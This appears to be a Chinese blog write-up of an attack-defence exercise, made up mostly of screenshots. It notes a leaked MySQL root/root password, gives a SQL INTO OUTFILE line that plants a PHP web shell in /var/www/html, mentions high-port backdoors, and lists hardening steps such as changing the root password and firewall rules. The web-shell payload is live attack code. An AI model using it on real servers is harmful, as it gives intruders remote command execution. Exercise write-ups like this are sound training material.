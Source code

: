 WebShell.php

![](https://i-blog.csdnimg.cn/blog_migrate/ee48e048448879d560bfd8ab200ecb84.png)

![](https://i-blog.csdnimg.cn/blog_migrate/6cf181dc9ea41831991ab27851375aa9.png)

加固

![](https://i-blog.csdnimg.cn/blog_migrate/15d354a53250ee8d632dbc12fb1fadb5.png)

![](https://i-blog.csdnimg.cn/blog_migrate/b6385a8061e35b02577043d4616f95e3.png)

![](https://i-blog.csdnimg.cn/blog_migrate/5484bc5d9a8a079d305421406fe16e4b.png)

通过查看TestConn.php页面可获知数据库密码为root/root

![](https://i-blog.csdnimg.cn/blog_migrate/478b7289014b979b88c7904ff98e2c90.png)

1. 3306数据库攻击方式，使用kali远程连接别人的数据库

![](https://i-blog.csdnimg.cn/blog_migrate/425a41612b3f3a7c1e0f27265f296c37.png)

攻击代码

select '<?php system($\_GET[\'a\']); ?>' INTO OUTFILE '/var/www/html/a.php';

![](https://i-blog.csdnimg.cn/blog_migrate/9bc8aca947d3a348be3e04e28040440b.png)

攻击

![](https://i-blog.csdnimg.cn/blog_migrate/bc5095ee7e9c891c57f3694741f4209c.png)

加固漏洞

![](https://i-blog.csdnimg.cn/blog_migrate/91f0def859a1621cc5358f23e40423b7.png)

>use mysql;

>update user set Password=password('123456') where User='root';

![](https://i-blog.csdnimg.cn/blog_migrate/841a811c704ea1384384aa1f4e81727b.png)

修改密码即可

![](https://i-blog.csdnimg.cn/blog_migrate/bb8c6956226da068cf886db9739e5f36.png)

1. 攻击10000以后的大端口后门

![](https://i-blog.csdnimg.cn/blog_migrate/f41445c75f89486def35e0c8048a9eba.png)

![](https://i-blog.csdnimg.cn/blog_migrate/41311cf8697784aad6efc1392bd210c0.png)

加固

写centos的iptables,关闭防火墙
